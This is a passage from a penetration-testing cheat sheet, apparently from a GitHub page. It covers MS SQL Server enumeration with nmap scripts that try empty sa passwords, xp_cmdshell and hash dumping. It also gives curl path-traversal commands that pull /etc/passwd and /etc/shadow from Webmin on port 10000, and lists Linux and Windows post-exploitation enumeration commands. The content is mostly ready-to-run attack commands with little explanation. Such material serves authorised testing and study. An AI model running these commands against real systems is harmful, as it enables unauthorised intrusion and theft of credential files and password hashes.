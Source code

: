 *   MS SQL Server Enumeration

    *   Nmap Information Gathering

        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`

*   Webmin and miniserv/0.01 Enumeration - Port 10000

    Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`

    Test to see if webmin is running as root by grabbing /etc/shadow

        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

*   Linux OS Enumeration

    *   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    *   Determine the current version of Linux  
        `cat /etc/issue`

    *   Determine more information about the environment  
        `uname -a`

    *   List processes running  
        `ps -xaf`

    *   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    *   List iptables rules  
        `iptables --table nat --list iptables -vL -t filter iptables -vL -t nat iptables -vL -t mangle iptables -vL -t raw iptables -vL -t security`

*   Windows OS Enumeration

    *   net config Workstation

    *   systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

    *   hostname

    *   net users

    *   ipconfig /all

    *   route print

    *   arp -A

    *   netstat -ano

    *   netsh firewall show state
